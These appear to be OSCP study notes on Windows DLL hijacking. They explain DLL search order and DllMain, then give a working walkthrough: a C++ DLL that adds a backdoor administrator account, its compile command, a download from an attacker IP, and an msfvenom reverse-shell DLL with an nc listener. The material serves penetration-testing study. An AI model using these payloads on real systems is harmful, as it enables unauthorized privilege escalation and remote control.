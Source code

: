 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/6-dll-hijacking/","updated":"2024-01-05T11:35:08.406+01:00"}
---
```


- Dynamic Link Libraries (DLLs) provide functionality to programs or the OS.
- They are a way for developers to use and integrate already existing functionality without reinventing the wheel.
- On Unix they are comparable to Shared Objects.
- DLLs can be abused in multiple ways for privilege escalation.
	- One way is to replace the .DLL in the same way as for service hijacking.
	- Another method is called "DLL Search Order"

DLL Search Order:
- The search order determines the order of DLLs to inspecting when searching for them. By default Safe DLL Search Mode is enabled, which makes it more difficult.
- Microsoft's standard search order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
- When safe mode is disabled the current directory is at position 2 after application's directory.
- List search order using:
```powershell
$env:path  
```

One-liner to list all paths and the permissions for them (GPT):
```powershell
$env:path -split ";" | ForEach-Object { "$_"; (icacls.exe $_) | Select-String -Pattern ":\s*\([^)]+\)" }
```

Inner workings of DLLs:
- Each DLL can have an optional entry point funtion named "DllMain", which is executed when processes or threads attach the DLL.
- DllMain generally contains four cases named:
	- _DLL_PROCESS_ATTACH_
	- _DLL_THREAD_ATTACH_
	- _DLL_THREAD_DETACH_
	- _DLL_PROCESS_DETACH_
- The four cases handle situations where the DLL is loaded or unloaded by a process or thread.
- They are commonly used to perform starting or quitting tasks.
- If the DLL does not include DllMain it only provides resources.
- Example of a basic DLL in C++ containing these cases:
```c++
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
-------------

### DLL Search Order Hijacking:
1. Start procmon or other to review services and their DLLs. (Procmon has to be run as administrator on the target machine, otherwise the binary has to be copied and analysed locally)
2. Find a DLL which is missing.
3. Create a DLL in the form of a '.cpp'-file on your Kali. Example of new admin user:
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user zombie password123! /add");
  	    i = system ("net localgroup administrators zombie /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
4. Cross-compile the DLL with mingw:
```bash
x86_64-w64-mingw32-gcc <dllname>.cpp --shared -o <dllname>.dll
```
5. Serve the DLL and download it.
```powershell
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```
6. Move the DLL to the optimal position in the search order path using 'move'.
7. Restart the service loading the DLL:
```powershell
Restart-Service <servicename>
```
8. Win!

### DLL Reverse Shell with MSF:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll

nc -lvnp 443

iwr -uri http://192.168.45.226:8001/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll

RestartService EnterpriseService
```

